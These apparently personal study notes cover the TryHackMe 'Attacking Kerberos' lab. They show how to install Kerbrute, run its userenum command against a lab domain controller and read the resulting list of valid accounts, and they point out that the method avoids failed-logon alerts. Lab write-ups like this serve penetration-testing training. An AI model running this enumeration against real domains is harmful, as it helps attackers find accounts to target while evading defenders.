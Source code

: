 # Kerbrute

Tryhackme: [https://tryhackme.com/room/attackingkerberos](https://tryhackme.com/room/attackingkerberos)

## Abusing Pre-Authentication Overview -

By brute-forcing Kerberos pre-authentication, you do not trigger the account failed to log on event which can throw up red flags to blue teams. When brute-forcing through Kerberos you can brute-force by only sending a single UDP frame to the KDC allowing you to enumerate the users on the domain from a wordlist.



## Kerbrute Installation -&#x20;

1.) Download a precompiled binary for your OS - [https://github.com/ropnop/kerbrute/releases](https://github.com/ropnop/kerbrute/releases)

2.) Rename kerbrute\_linux\_amd64 to kerbrute

3.) `chmod +x kerbrute` - make kerbrute executabl



Details:

1.  **Download the Binary:**

    * Open a terminal.
    * Use `wget` command to download the precompiled binary for Linux. Replace `<URL>` with the direct download link for the Linux binary:

    `wget <URL>`

*   **Rename the Binary:**

    After downloading the binary, rename it to `kerbrute`. Assuming the downloaded file is named `kerbrute_linux_amd64`, use the following command to rename it:

`mv kerbrute_linux_amd64 kerbrute`



**Make the Binary Executable:**

* Use the `chmod` command to make the `kerbrute` binary executable:

`chmod +x kerbrute`



## Enumerating Users w/ Kerbrute -

Enumerating users allows you to know which user accounts are on the target domain and which accounts could potentially be used to access the network.

1.) cd into the directory that you put Kerbrute

2.) Download the wordlist to enumerate with [here](https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt)

3.) `./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt` - This will brute force user accounts from a domain controller using a supplied wordlist



root@ip-10-10-172-53:\~# ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt

Version: v1.0.3 (9dad6e1) - 03/13/24 - Ronnie Flathers @ropnop

2024/03/13 08:58:18 > Using KDC(s): 2024/03/13 08:58:18 > CONTROLLER.local:88

2024/03/13 08:58:18 > \[+] VALID USERNAME:&#x20;

admin1@CONTROLLER.local 2024/03/13 08:58:18 > \[+] VALID USERNAME:&#x20;

admin2@CONTROLLER.local 2024/03/13 08:58:18 > \[+] VALID USERNAME: administrator@CONTROLLER.local 2024/03/13 08:58:18 > \[+] VALID USERNAME: machine2@CONTROLLER.local 2024/03/13 08:58:18 > \[+] VALID USERNAME: machine1@CONTROLLER.local 2024/03/13 08:58:18 > \[+] VALID USERNAME: httpservice@CONTROLLER.local 2024/03/13 08:58:18 > \[+] VALID USERNAME: sqlservice@CONTROLLER.local 2024/03/13 08:58:18 > \[+] VALID USERNAME: user1@CONTROLLER.local 2024/03/13 08:58:18 > \[+] VALID USERNAME:&#x20;

user2@CONTROLLER.local 2024/03/13 08:58:18 > \[+] VALID USERNAME: user3@CONTROLLER.local 2024/03/13 08:58:18 >&#x20;

Done! Tested 100 usernames (10 valid) in 0.030 seconds
